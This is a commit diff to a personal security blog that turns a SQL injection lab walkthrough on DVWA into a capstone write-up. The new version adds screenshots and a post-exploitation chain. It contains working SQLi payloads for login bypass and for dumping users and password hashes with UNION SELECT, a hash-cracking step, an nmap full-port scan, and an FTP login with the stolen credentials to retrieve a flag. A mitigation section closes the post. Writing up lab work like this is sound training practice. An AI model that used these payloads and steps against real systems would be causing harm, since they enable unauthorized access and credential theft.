

Before and after one commit to KiunaJeff/KiunaJeff.github.io, a Jekyll site: the page built from blog/index.md, in a window 1280 px wide. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed lines change nothing that is shown.

Commit message:
Update SQL Injection lab write-up with screenshots

````diff
--- a/_posts/2025-08-22-sql-injection-lab.md
+++ b/_posts/2025-08-22-sql-injection-lab.md
@@ -1,69 +1,113 @@
 ---
-layout: post
-title: "SQL Injection Lab Walkthrough"
-date: 2025-08-22
+title: "SQL Injection Lab Walkthrough (Capstone)"
+date: 2025-08-24
 categories: [Labs, Web Security]
-tags: [sql-injection, authentication-bypass, union-select, database]
-excerpt: "A step-by-step guide on identifying and exploiting SQL injection vulnerabilities to bypass authentication and safely extract data from a test database."
+tags: [sql-injection, authentication-bypass, union-select, database, password-cracking]
+excerpt: "In this capstone lab, I exploited a SQL injection vulnerability to enumerate users, crack a password hash, and retrieve a hidden flag file."
+---
+
+## Objective
+The goal of this lab was to exploit a SQL injection vulnerability on a target web application, retrieve user account information, crack a password hash, and use the compromised credentials to access a hidden flag file.
 
 ---
 
-## Introduction
+## Environment & Scope
+- **Target IP:** `10.5.5.12` (DVWA web app)
+- **Secondary target:** `192.168.0.10` (Bob Smith’s host)
+- **Tools used:** Browser (DVWA), `nmap`, `ftp`, CrackStation
+- **Focus:** Exploiting SQL injection and lateral movement
 
-In this lab, I explored how SQL injection vulnerabilities can be abused to bypass authentication and extract sensitive data from a backend database. SQLi persists as a top OWASP risk due to unsanitized inputs and unsafe query construction.
+---
 
-## Environment & Scope
-
-- **Target:** Vulnerable login form backed by a SQL database
-- **Goal:** Bypass login and enumerate data
-- **Tools:** Browser, proxy (optional), and basic SQL payloads
-
-## Enumeration
-
-I tested the login form with simple special characters to observe error messages and behavior changes.
-
-**Indicator of SQLi:** entering a single quote `'` in the username field produced anomalous behavior, suggesting the input was being concatenated directly into a SQL statement.
-
-## Exploitation
-
-### Step 1 — Authentication Bypass
-
-A classic boolean-based payload allowed login bypass:
+## Step 1 — Authentication Bypass & SQL Injection
+Testing the login form with a classic injection payload:
 
 ```sql
-' OR '1'='1' --
+' OR '1' = '1' #
 ```
 
-- The trailing `--` comments out the rest of the original query.
-- The `OR '1'='1'` condition evaluates to true, forcing the query to return a valid row.
+This bypassed authentication and confirmed SQL injection.
 
-### Step 2 — Data Enumeration with `UNION SELECT`
+![SQLi login bypass](/assets/images/labs/sql-injection/SQLi-1.png)
 
-After confirming SQLi, I leveraged `UNION SELECT` to enumerate and extract data:
+---
+
+## Step 2 — Extracting User Data
+To enumerate user accounts and password hashes:
 
 ```sql
-' UNION SELECT username, password FROM users --
+' UNION SELECT user, password FROM users #
 ```
 
-**Notes:**
+This revealed multiple user accounts, including **Bob Smith** with a password hash.
 
-- Column counts must match the original query.
-- If unknown, determine the number of columns via `ORDER BY` testing or incremental `UNION SELECT NULL,...`.
+![Union select results](/assets/images/labs/sql-injection/SQL-passwordhashes.png)
 
-## Evidence (Example)
+---
 
-- Successful login without valid credentials
-- Retrieved sample rows from `users` table via `UNION SELECT`
+## Step 3 — Cracking the Password Hash
+I copied Bob’s hash and cracked it using [CrackStation](https://crackstation.net/).
+
+- **Recovered password:** `password`
+
+![Crackstation results](/assets/images/labs/sql-injection/crackedhash.png)
+
+---
+
+## Step 4 — Host Enumeration
+Next, I targeted Bob Smith’s machine (`192.168.0.10`) and scanned for open services:
+
+```bash
+nmap -sS -sV -p- 192.168.0.10
+```
+
+This revealed an **FTP service running on port 2121**.
+
+![Nmap scan results](/assets/images/labs/sql-injection/nmapfullscan.png)
+
+---
+
+## Step 5 — Accessing the FTP Server
+Using Bob’s credentials, I logged in via FTP:
+
+```bash
+ftp 192.168.0.10 2121
+```
+
+I located a file named `my_passwords.txt` in his home directory.
+
+![FTP session](/assets/images/labs/sql-injection/ftploginport2121.png)
+
+---
+
+## Step 6 — Retrieving and Reading the Flag
+Downloaded the file:
+
+```bash
+get my_passwords.txt
+```
+
+Then displayed its contents:
+
+```bash
+cat my_passwords.txt
+```
+
+The file contained the **Challenge  code**.
+
+![Flag file contents](/assets/images/labs/sql-injection/flagfile.png)
+
+---
 
 ## Mitigation
+To protect against SQL injection and credential compromise:
+- **Parameterized queries** (prepared statements with bound variables).
+- **Input validation & sanitization** (reject unsafe characters, enforce whitelists).
+- **Error handling** (suppress SQL errors from users).
+- **Strong password storage** (salted & hashed with modern algorithms).
+- **Least privilege** (restrict database and file permissions).
 
-- **Use parameterized queries / prepared statements** (bind variables rather than string concatenation).
-- **Server-side input validation & output encoding** (deny-list risky patterns; prefer allow-lists).
-- **Least-privilege DB accounts** (restrict application user to only required statements/tables).
-- **Error handling** (don’t leak stack traces or SQL errors to users).
-- **WAF / RASP** as compensating controls; monitor anomalies and block known payload patterns.
-- **Secure SDLC & testing** (static/dynamic testing and regular dependency patching).
+---
 
 ## Conclusion
-
-This lab reinforced how trivial inputs can subvert insecure SQL queries, enabling authentication bypass and data exfiltration. Robust parameterization, validation, and least privilege are essential to prevent SQL injection.
+This lab demonstrated how SQL injection can be escalated to full credential compromise and system access. Proper coding practices, secure password handling, and strict access controls are essential to prevent such attacks.
````
Also changed, not shown: assets/images/labs/sql-injection/SQL-passwordhashes.png (added), assets/images/labs/sql-injection/SQLi-1.png (added), assets/images/labs/sql-injection/crackedhash.png (added), assets/images/labs/sql-injection/flagfile.png (added), assets/images/labs/sql-injection/ftploginport2121.png (added), assets/images/labs/sql-injection/nmapfullscan.png (added).
